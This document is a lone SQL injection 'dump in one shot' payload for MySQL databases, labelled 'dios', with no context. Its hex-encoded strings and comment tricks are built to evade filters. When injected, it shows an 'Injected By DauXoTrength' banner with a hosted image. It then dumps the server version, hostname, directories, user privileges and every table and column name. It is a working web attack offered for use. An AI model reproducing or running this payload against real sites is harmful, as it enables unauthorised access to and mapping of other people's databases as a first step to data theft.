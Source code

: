 # dios
/*!00000concat*/(0x3c63656e7465723e3c696d67207372633d2268747470733a2f2f74656c656772612e70682f66696c652f3561316438653833343338303530633435316133332e6a7067222077696474683d22353025223e3c62723e3c62723e3c62723e3c6831207374796c653d22636f6c6f723a726564223e496e6a656374656420427920446175586f5472656e6774683c333c2f68313e3c2f63656e7465723e,0x3c62723e,0x3c62723e,0x44617465203a20,/*!00000NOW()*/,0x3c62723e,0x56657273696f6e203a3a20,version(),0x3c62723e,0x4461746162617365203a3a20,database(),0x3c62723e,0x4469726563746f7279203a3a20,@@datadir,0x3c62723e,0x486f73746e616d65203a3a20,@@hostname,0x3c62723e,0x42617365446972203a3a20,@@basedir,0x3c62723e,0x44617461446972203a3a20,@@datadir,0x3c62723e,0x53736c203a3a20,@@global.have_ssl,0x3c62723e,0x53796d6c696e6b203a3a20,@@global.have_symlink,0x3c62723e,0x55736572203a3a20,user(),0x3c62723e,0x50726976696c65676573202f20696e74726f206f757466696c6520636865636b203a3a20,(/*!00000select*/+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+/*!00000FROM*/+INFORMATION_SCHEMA.USER_PRIVILEGES),(select+(@a)+/*!00000from*/+(select+(@a:=0x00),(@tbl:=0x00),(select+(0)+/*!00000from*/+(information_schema/**/.columns)+where+(table_schema!=0x696e666f726d6174696f6e5f736368656d61)+and+(0x00)+in+(@a:=/*!00000concat*/(@a,0x3c62723e,if(+(@tbl!=table_name),/*!00000concat*/(0x3c62723e,0x5461626c65203a3a20,@tbl:=table_name,0x3c62723e7e20,column_name),/*!00000concat*/(0x7e20,(column_name)))))))a))
